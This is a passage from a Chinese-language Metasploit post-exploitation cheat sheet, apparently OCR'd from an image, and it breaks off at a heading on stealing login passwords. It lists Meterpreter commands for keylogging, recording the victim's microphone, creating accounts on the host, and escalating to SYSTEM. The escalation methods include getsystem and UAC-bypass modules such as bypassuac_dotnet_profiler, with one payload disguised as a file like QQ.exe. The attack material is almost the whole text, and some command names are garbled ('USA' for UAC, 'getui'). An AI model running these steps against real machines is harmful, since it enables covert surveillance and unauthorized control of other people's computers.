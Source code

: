 - `keyscan_start`
- `keyscan_dump`
- `keyscan_stop`

## 后渗透之创建账号

- `run post/windows/gather/enum_logged_on_users`
- `run getgui -u username -p password`

## 后渗透之音频录制

- `record_mic -d 60`  持续时间 30 秒（参数是实际时间的 2 倍）
- `record_mic -p` 自动播放

## 后渗透之提权

- `getuid` 查看当前权限。只有 SYSTEM 才可以创建账号

#### 提权方法一：

- `getsystem` 直接提权

#### 提权方法二：

- ` getuid` 获取当前用户
- `bg`  将当前 Session 挂起，会返回一个 Session id
- `use exploit/windows/local/ask`    USA 绕过提权，使用 ASK 模块
- `show options` 查看需要配置的参数
- `set session x`  配置 session id，刚才挂起的 session
- `set filename`  可以不配置，如果配置，会伪装成这个文件，如 QQ.exe
- `run`  运行

#### 提权方法三：

- `getui` 获取当前用户
- `bg` 将当前 Session 挂起
- `search bypassuac` 搜索提权模块
- `use exploit/windows/local/bypassuac_dotnet_profiler` 选择要使用的模块（以 dotnet 模块为例）
- `options` 查看需要配置的参数
- `sessions` 查看 session （如果记得挂起的 id ，可以跳过这一步）
- `set session x` 配置 session id
-  `set lhost xxx.xxx.xxx.xxx`
- `set lport xxxx`
- `getuid` 查看当前用户（还是最开始的用户）
- `getsystem` 提权
- `getuid` 查看当前用户（SYSTEM 用户）



## 后渗透之获取登录密码

> 以下操作前提是已经提权到 SYSTEM
